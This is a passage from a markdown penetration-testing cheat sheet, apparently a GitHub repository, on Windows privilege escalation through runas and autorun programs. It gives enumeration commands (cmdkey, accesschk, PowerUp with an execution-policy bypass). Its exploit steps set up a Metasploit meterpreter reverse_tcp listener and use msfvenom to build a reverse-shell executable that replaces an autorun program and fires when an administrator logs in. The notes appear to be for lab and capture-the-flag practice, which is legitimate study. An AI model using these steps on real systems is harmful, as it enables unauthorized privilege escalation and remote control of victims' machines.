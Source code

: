 ### What is it

- It is the possibility of running a command as another user

### Enumerate

- `cmdkey /list`

### How to exploit

- Check the writeup for Access on HTB [here](../writeups/HTB-access.md) to have an example of privesc using runas

## Autorun

### What is it

- It is when you abuse the fact that a program runs automatically

### Enumerate

- Check what programs have autorun using [Windows internals - autorun](https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns) see example below  
![image](https://user-images.githubusercontent.com/96747355/162574595-2e7704db-5be0-411c-98f0-1b075628ec92.png)  

- Check that the program you found that allows FILE_ALL_ACCESS to Everyone using [Windows internals - accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) in our example we would type this in the cmd `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"`  
![image](https://user-images.githubusercontent.com/96747355/162574634-d6459714-366e-4afa-9735-d469eb8e3ab9.png)  

**OR**  

- With [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1):
  - In a win cmd type `powershell -ep bypass`
  - Then `. .\PowerUp.ps1` to load powerUp
  - `Invoke-AllChecks`  
![image](https://user-images.githubusercontent.com/96747355/162574989-40f208c1-12ac-47d6-99b7-3035cf9b4297.png)  

### How to exploit

- In kali
  - `msfconsole`
  - `use multi/handler`
  - `set payload windows/meterpreter/reverse_tcp`
  - `set lhost Your-Kali-IP-Address`
  - `run`
  - In another cmd tab `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe` (give it the same name as the program that has autorun)
- Take the program you created with msfvenom in your target (python HTTP server and then the browser in your target)
- In your target
  - Place the program in the directory where the autorun program is
  - Wait for the administrator to log in
- You should have a shell in your kali in Metasploit
